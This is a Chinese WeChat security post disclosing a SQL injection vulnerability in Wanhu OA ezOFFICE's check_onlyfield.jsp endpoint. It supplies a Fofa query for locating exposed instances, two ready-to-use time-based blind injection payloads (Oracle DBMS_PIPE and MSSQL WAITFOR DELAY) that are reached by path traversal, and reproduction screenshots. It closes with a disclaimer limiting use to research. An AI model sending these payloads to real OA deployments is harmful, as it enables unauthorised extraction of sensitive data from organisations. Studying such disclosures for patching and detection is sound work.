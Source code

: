 #  【1day】万户OA check_onlyfield.jsp sql注入漏洞   
原创 十二  十二主神   2023-12-17 09:30  
  
**重要通知**  
  
师傅们，动动小手指，设个星标，灰常感谢  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmC0yh3BpRx7Z8ibLmHlrfhmibN0Ppow5v7exvsoWJmgX18t7sLUkkg3TGzgwl2TWdjoJamRy9Xszy1w/640?wx_fmt=png&from=appmsg "")  
# 漏洞描述  
  
万户OA check_onlyfield.jsp sql注入漏洞，攻击者可通过此漏洞获取敏感信息。  
  
**资产测绘**  
```
Fofa：app="万户网络-ezOFFICE"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmC0yh3BpRx7Z8ibLmHlrfhmibIcOIoK0Et3LjVGz9tsrehWwFhARcR875ULvjWva7XytZwy4eC8H0lg/640?wx_fmt=png&from=appmsg "")  
  
**漏洞POC**  
```
POC1
/defaultroot/iWebOfficeSign/OfficeServer.jsp/../../platform/custom/custom_form/run/checkform/check_onlyfield.jsp?fieldId=1)+AND+9632=DBMS_PIPE.RECEIVE_MESSAGE(CHR(87)||CHR(65)||CHR(109)||CHR(70),3)+AND+(4917=4917

POC2
/defaultroot/iWebOfficeSign/OfficeServer.jsp/../../platform/custom/custom_form/run/checkform/check_onlyfield.jsp?fieldId=1);WAITFOR+DELAY+'0:0:3'

```  
# 漏洞复现  
  
部分界面如下所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmC0yh3BpRx7Z8ibLmHlrfhmibt9W27mKWEohGHPFOSwNxc6f1ZiaUS58kRIlrf2FJDd54ABFG04LSJOA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmC0yh3BpRx7Z8ibLmHlrfhmibW1J8mbzYvwzAYSpaicSeqn7zUxtYa4rU3hz4p3KibvopwJGmJxXxbCPA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmC0yh3BpRx7Z8ibLmHlrfhmib6eko8xn9MN50eDVhTLM9Exlg1E3ib1bLZBxxJaibbZibju8q1gu7Kar2Q/640?wx_fmt=png&from=appmsg "")  
  
**Nuclei脚本**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmC0yh3BpRx7Z8ibLmHlrfhmibwNn0Xx3F7QEMqg4C9hgvObv7etu2L8gJoS5upz7nJESqB0Fpve0VJg/640?wx_fmt=png&from=appmsg "")  
<table><tbody style="outline: 0px;"><tr style="outline: 0px;"><td width="557" valign="top" style="outline: 0px;word-break: break-all;hyphens: auto;"><p style="outline: 0px;letter-spacing: 0.544px;color: rgb(34, 34, 34);"><strong style="outline: 0px;"><span style="outline: 0px;font-family: 宋体;color: red;">免责声明：</span></strong></p><p style="outline: 0px;"><span style="outline: 0px;font-family: 宋体;">  </span><span style="outline: 0px;font-size: 14px;">本文章仅做网络安全技术研究使用！严禁用于非法犯罪行为，请严格遵守国家法律法规；</span><span style="outline: 0px;color: rgb(0, 0, 0);font-size: 14px;letter-spacing: 0.544px;text-decoration-style: solid;text-decoration-color: rgb(255, 0, 0);">请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。<span style="outline: 0px;letter-spacing: 0.578px;">使用本文所提供的信息或工具即视为</span></span><span style="outline: 0px;font-size: 14px;letter-spacing: 0.544px;text-decoration-style: solid;text-decoration-color: rgb(255, 0, 0);color: rgb(0, 0, 0);">同意本免责声明</span><span style="outline: 0px;color: rgb(0, 0, 0);text-decoration-style: solid;text-decoration-color: rgb(255, 0, 0);font-size: 14px;letter-spacing: 0.578px;">，并承诺遵守相关法律法规和道德规范。</span><span style="outline: 0px;font-size: 14px;letter-spacing: 0.544px;">公众号发表的一切文章如有侵权烦请私信联系告知，我们会立即删除并对您表达最诚挚的歉意！感谢您的理解！</span></p><p><span style="outline: 0px;font-size: 14px;letter-spacing: 0.544px;"><br/></span></p></td></tr></tbody></table>  
